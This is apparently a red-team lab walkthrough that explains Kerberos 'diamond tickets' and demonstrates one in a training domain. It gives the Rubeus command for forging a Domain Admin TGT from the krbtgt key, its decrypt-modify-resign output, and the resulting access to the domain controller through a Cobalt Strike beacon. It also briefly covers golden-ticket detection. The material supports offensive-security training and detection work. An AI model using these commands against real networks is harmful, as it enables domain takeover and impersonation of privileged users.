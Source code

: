 Like a golden ticket, a diamond ticket is a TGT which can be used to access any service as any user.  A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use.  Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

As previously mentioned, there are two common techniques to detect the use of golden tickets:

-   Look for TGS-REQs that have no corresponding AS-REQ.
-   Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.

  

A diamond ticket is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it.  This overcomes the two aforementioned shortcomings of a golden ticket because:

-   TGS-REQs will have a preceding AS-REQ.
-   The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy.  Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

  

First we prove we have no access to the DC as **bfarmer**.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-2\c$
[-] could not open \\dc-2\c$\*: 5
```

Diamond tickets can now be created with Rubeus.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1112 /groups:512 /krbkey:390b2f[...snip...]91a8aa /nowrap
```

Where:

-   `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
-   `/ticketuser` is the username of the principal to impersonate.
-   `/ticketuserid` is the domain RID of that principal.  This can be obtained using a command like `powershell Get-DomainUser -Identity nlamb -Properties objectsid`.
-   `/groups` are the desired group RIDs (512 being Domain Admins).
-   `/krbkey` is the krbtgt AES256 hash.

  

```
[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

doIFYj [...snip...] MuSU8=
```

  

Rubeus `describe` will now show that this is a TGT for the target user.

```
C:\>C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
```

  

And we can leverage it to access a resource such as the domain controller.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi

beacon> ls \\dc-2\c$
[*] Listing: \\dc-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 16:37:14   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/01/2022 16:34:27   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:49:20   System Volume Information
          dir     03/01/2022 10:51:31   Users
          dir     03/01/2022 13:14:40   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 704mb    fil     07/07/2022 08:25:04   pagefile.sys
```